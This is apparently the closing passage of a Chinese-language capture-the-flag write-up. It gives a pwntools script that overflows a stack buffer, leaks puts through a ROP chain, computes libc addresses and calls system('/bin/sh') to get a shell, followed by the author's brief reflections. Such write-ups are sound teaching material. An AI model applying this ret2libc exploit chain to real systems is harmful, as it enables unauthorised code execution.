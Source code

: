 ```python
# print(shell)
# print(len(shell))

# pause()
ret=0x000000000040101a
# payload_test=b'a'*0x48+b'@'*7+b'a'*8+p64(out_put) # 0x48+0x38+0x8+p64(output)
# payload_test=b'@'*14+shell+p64(0x403510) # 0x70+0x18ret_addr:out_put+0x70

payload_1=b'@'*14+b'a'*0x18+p64(ret)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(elf.sym['main']) # 14*8+0x18

pause()

target.send(payload_1)

pause()
puts_addr=u64(target.recv(6).ljust(8,b'\x00'))

print(hex(puts_addr))

libc_base=puts_addr-libc.sym['puts']
system_addr=libc.sym['system']+libc_base
str_bin_sh=next(libc.search("/bin/sh\x00"))+libc_base

target.sendlineafter("但密码是什么？\n",b'We passed the end, so we chase forever')

payload_2=b'@'*14+b'a'*0x18+p64(pop_rdi)+p64(str_bin_sh)+p64(system_addr)

target.sendafter("你可以继续写下去了\n",payload_2)

# pause()
target.interactive()



```

当时试了试retshellcode的思路,不行,好像有保护,嘻嘻

记得栈对齐(有的体要加个ret)

# 总结

没做出来多少,哎呀,这还是新生赛,哎呀,感觉新生赛越来越难了

官方发的wp需要i仔细研究研究,

我一直有个疑问,做这些题干啥,二进制安全不好实战呀,而且不好找工作,但是,我做出来题之后,总有一种开心的感觉

,可能这就是对自己的一种取悦或者自我安慰吧哈哈哈.
